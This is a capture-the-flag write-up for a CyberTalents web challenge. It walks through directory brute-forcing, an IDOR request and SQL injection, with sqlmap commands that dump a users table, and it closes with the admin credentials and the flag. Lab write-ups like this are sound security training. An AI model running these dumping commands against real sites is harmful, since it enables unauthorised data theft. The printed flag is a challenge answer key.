



# Solve litesecret
#### https://cybertalents.com/challenges/web/litesecret


### Run Directory bruteforce
`dirsearch -u http://wcamxwl32pue3e6mkgvdrq0i9zrqj6zqdkgxu639-web.cybertalentslabs.com -x 403,404`
*you can find the output in [Directories.txt](Directories.txt)*

### Analyze the source code and endpoints
```
Welcome -> http://wcamxwl32pue3e6mkgvdrq0i9zrqj6zqdkgxu639-web.cybertalentslabs.com/home/1
About us -> http://wcamxwl32pue3e6mkgvdrq0i9zrqj6zqdkgxu639-web.cybertalentslabs.com/home/2
```
Nothing important 

#### login

test admin:admin -> Incorrect username or password

### Analyze with burp

```http
POST /login HTTP/1.1
Host: wcamxwl32pue3e6mkgvdrq0i9zrqj6zqdkgxu639-web.cybertalentslabs.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,images/image/avif,images/image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 29
Origin: http://wcamxwl32pue3e6mkgvdrq0i9zrqj6zqdkgxu639-web.cybertalentslabs.com
Connection: close
Referer: http://wcamxwl32pue3e6mkgvdrq0i9zrqj6zqdkgxu639-web.cybertalentslabs.com/login
Cookie: _ga_B38952S5RT=GS1.1.1718765785.1.1.1718765798.47.0.0; _ga=GA1.1.1474852010.1718765786; _clck=yv78z1%7C2%7Cfmr%7C0%7C1631; ajs_anonymous_id=79cb6015-fb56-43db-bbe9-121c0fe1885e; _ga_S72LBY47R8=GS1.1.1718766980.1.1.1718767179.0.0.0
Upgrade-Insecure-Requests: 1

username=admin&password=admin
```

```http
HTTP/1.1 200 OK
Server: nginx/1.27.1
Date: Sun, 09 Feb 2025 00:25:05 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 30
Connection: close
X-Powered-By: Express
ETag: W/"1e-rLNS954LHEEL+kNUFi+s5vEu3/o"

Incorrect username or password
```
test sqli but it seems not injectable

### IDOR
```bash
curl http://wcamxwl32pue3e6mkgvdrq0i9zrqj6zqdkgxu639-web.cybertalentslabs.com/home/3
```
worked but 

### SQLI
```bash
curl -i "http://wcamxwl32pue3e6mkgvdrq0i9zrqj6zqdkgxu639-web.cybertalentslabs.com/home/'"
HTTP/1.1 500 Internal Server Error
Server: nginx/1.27.1
Date: Sun, 09 Feb 2025 00:29:39 GMT
Content-Length: 45
Connection: keep-alive
X-Powered-By: Express

Error: SQLITE_ERROR: unrecognized token: "'"                                                                                                                                                 
```
```bash
sqlmap -u http://wcamxwl32pue3e6mkgvdrq0i9zrqj6zqdkgxu639-web.cybertalentslabs.com/home/1 --dbms=sqlite --ignore-code 400,500 --random-agent -technique=BU --level 5 --risk 3 --dump --answers="Y" 
```
*Note: B: Boolean-based blind and U: Union query-based*

get the data of users table
```bash
sqlmap -u http://wcamxwl32pue3e6mkgvdrq0i9zrqj6zqdkgxu639-web.cybertalentslabs.com/home/1 --dbms=sqlite --ignore-code 400,500  --level 5 --risk 3 --dump -T users --threads 10
```

login with Admin:3da0f453651f0eca43e02645b68ec83c3c659b9d57ea556d0842047c9393c789



FLAG{4adc81ee29410e84b89f52c529a9b80774713a68aca48ffd6d0614896aa8704f}


>Find More on ==> github.com/MedhatHassan 
